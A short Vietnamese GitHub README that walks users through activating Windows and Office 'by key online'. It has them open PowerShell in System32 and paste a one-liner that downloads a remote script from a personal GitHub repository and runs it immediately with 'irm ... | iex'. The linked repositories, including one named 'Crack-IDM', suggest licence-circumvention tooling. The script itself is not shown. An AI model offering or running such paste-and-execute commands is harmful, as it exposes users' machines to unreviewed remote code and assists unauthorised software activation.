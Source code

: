 # Kích hoạt Windows và Office Bằng Key Online #
- ![image](https://github.com/BsNgChiThanh/Lich-phong-kham/assets/82578024/d575f08f-29b1-4848-83b0-fb5e88dcb50c)
- Kích hoạt Windows và Office bằng Key Online.
- ![image](https://github.com/user-attachments/assets/892ab962-1334-4126-9b74-42be48da0f04)

- Khi kích hoạt Windows bằng key by phone, các bạn đôi khi không getcid được, tôi xin làm bài viết này giúp bạn giải quyết điều đó bằng cách dùng **Windows PowerShell:**
- Đầu tiên bấm tổ hợp phiếm: **Windows + R**, sau đó điền **PowerShell** rồi bấm enter.
- ![image](https://github.com/BsNgChiThanh/Crack-IDM/assets/82578024/73f131a2-efd7-4c50-9a36-106b02d83fca)
- Dán vào câu lệnh: **CD C:\Windows\System32** rồi enter
- ![image](https://github.com/BsNgChiThanh/Crack-IDM/assets/82578024/cc4df65e-6cc1-47a1-a967-fe19d9983a26)
- **Dán dòng lệnh dưới đây:**
  
  ```php
  irm https://raw.githubusercontent.com/BsNgChiThanh/ActiveWindowsOfficeOnline/IMP/ActiveWindow_Office_Online.ps1 | iex
  ```

- ![image](https://github.com/user-attachments/assets/009a3f1e-5d28-47b9-b561-195622a7c344)
- Bấm enter, sau đó làm theo chỉ dẫn là xong!

